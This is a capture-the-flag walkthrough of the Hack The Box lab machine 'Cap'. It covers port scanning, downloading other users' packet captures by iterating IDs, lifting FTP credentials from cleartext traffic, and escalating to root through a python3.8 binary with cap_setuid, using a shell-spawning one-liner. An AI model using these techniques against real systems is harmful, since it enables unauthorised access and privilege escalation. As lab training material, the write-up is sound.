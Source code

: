```yaml
---
title: Cap - Hack The Box
date: 2025-03-12
---
```


![Cap - info card](/ctf/hack-the-box/machines/cap/info-card.png)

## Enumeration

### Nmap Scan

We begin by running an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sC -sV -v -p- -oN cap.nmap 10.10.10.245
```

#### Scan Results:

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

From the results, we identified three open ports:

- **Port 21:** FTP (vsftpd 3.0.3)
- **Port 22:** SSH (OpenSSH 8.2p1)
- **Port 80:** HTTP (Gunicorn web server)

## Web Enumeration

### Exploring HTTP - Port 80

Visiting `http://10.10.10.245`, we see a **Security Dashboard**:

![Security Dashboard](/ctf/hack-the-box/machines/cap/security-dashboard.png)

One of the options, **Security Snapshot (5 Second PCAP + Analysis),** leads to a **Capture Analysis** page:

![Capture Analysis](/ctf/hack-the-box/machines/cap/capture-analysis.png)

This page allows us to download PCAP files. The URLs follow the pattern `/data/<id>`. By iterating over different values, we retrieve multiple PCAP files for analysis.

### Extracting Credentials from PCAP

Using Wireshark to analyze the PCAP files, we find FTP credentials in `/data/0`:

```plaintext
36   4.126500   192.168.196.1   192.168.196.16   FTP   69   Request: USER nathan
40   5.424998   192.168.196.1   192.168.196.16   FTP   78   Request: PASS ***************
```

We now have valid FTP credentials for `nathan`.

## Gaining Access

### FTP Login & User Flag

Using the extracted credentials, we log in to the FTP server:

```bash
ftp 10.10.10.245
Name (10.10.10.245:nathan): nathan
Password: ***************
```

We list the available files and find the user flag:

```bash
ftp> ls -al
-r--------    1 1001     1001           33 Mar 12 18:26 user.txt
ftp> get user.txt
```

Using the same credentials, we can log in via SSH:

```bash
ssh nathan@10.10.10.245
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

## Privilege Escalation

### Checking Capabilities

Using `getcap`, we identify a privilege escalation vector:

```bash
getcap -r / 2>/dev/null
```

```plaintext
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The `cap_setuid` capability allows the Python binary to change its effective user ID, providing a path to escalate privileges.

### Exploiting Python Capabilities

We use the following command to elevate our privileges:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

We successfully escalate to root.

![Cap - pwned](/ctf/hack-the-box/machines/cap/pwned.png)
